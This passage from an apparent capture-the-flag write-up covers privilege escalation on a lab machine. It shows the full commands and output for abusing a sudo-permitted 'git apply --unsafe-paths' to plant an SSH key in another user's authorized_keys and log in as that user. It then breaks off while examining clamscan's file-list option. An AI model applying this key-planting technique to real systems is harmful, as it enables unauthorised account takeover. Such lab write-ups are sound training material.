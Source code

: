 ### cbrown --\> sbrown: --unsafe-paths

The main point of the exploit to showcase is that symbolic links created
in the diff are not protected. However, it is possible to not even need
that if I can give any parameters to `git apply` as was the case on
release.

For example, I'll create a diff file in `/dev/shm`:



    cbrown@snoopy:~$ cat /dev/shm/test.diff 
    diff --git a/authorized_keys b/authorized_keys
    new file mode 100644
    index 0000000..ec273c0
    --- /dev/null
    +++ b/authorized_keys
    @@ -0,0 +1 @@
    +ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing
    -- 



Now I can use `--unsafe-paths` and `--directory` to apply this diff itno
the `.ssh` folder of sbrown:



    cbrown@snoopy:~$ sudo -u sbrown git apply -v --unsafe-paths --directory "/home/sbrown/.ssh" /dev/shm/test.diff 
    Checking patch /home/sbrown/.ssh/authorized_keys...
    Applied patch /home/sbrown/.ssh/authorized_keys cleanly.



And SSH in as sbrown:



    oxdf@hacky$ ssh -i ~/keys/ed25519_gen sbrown@snoopy.htb
    Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-71-generic x86_64)
    ...[snip]...
    sbrown@snoopy:~$ 



### sbrown --\> root: --file-list / -f

Looking through the `-h` options for `clamscan`, `-f` jumps out as
interesting.



    sbrown@snoopy:~$ clamscan -h

                           Clam AntiVirus: Scanner 1.0.0
               By The ClamAV Team: https://www.clamav.net/about.md#credits
               (C) 2022 Cisco Systems, Inc.

        clamscan [options] [file/directory/-]
    ...[snip]...
        --file-list=FILE      -f FILE        Scan files from FILE
    ...[snip]...  
